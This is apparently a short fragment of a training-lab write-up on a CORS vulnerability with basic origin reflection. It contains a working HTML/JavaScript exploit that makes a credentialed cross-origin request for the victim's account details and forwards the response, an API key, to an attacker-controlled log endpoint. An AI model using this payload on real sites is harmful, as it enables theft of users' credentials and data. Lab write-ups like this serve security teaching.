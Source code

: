 Updated code:


```
<html>
  <body>
    <script>
        var req = new XMLHttpRequest();
        var url = ("https://0a0800cc04a1819b81eb34770017009e.web-security-academy.net");
      req.onload = retrieveKeys;
        req.open('GET', url + "/accountDetails",true);
    
    req.withCredentials = true;

        req.send(null);

    function retrieveKeys() {
            location='/log?key='+this.responseText;
        };

  </script>
  <body>
</html>
```



![img](images/CORS%20vulnerability%20with%20basic%20origin%20reflection/2.png)

Decode:



![img](images/CORS%20vulnerability%20with%20basic%20origin%20reflection/3.png)

# CORS vulnerability with trusted null origin
